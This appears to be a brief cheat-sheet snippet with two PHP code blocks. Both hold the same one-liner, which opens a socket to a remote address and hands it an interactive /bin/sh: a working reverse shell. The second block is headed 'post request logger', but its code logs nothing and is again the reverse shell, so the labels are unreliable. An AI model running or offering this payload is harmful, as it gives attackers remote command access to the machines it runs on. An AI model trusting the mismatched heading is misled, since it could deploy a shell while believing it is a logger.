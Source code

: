 ### Reverse shell in PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## post request logger
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

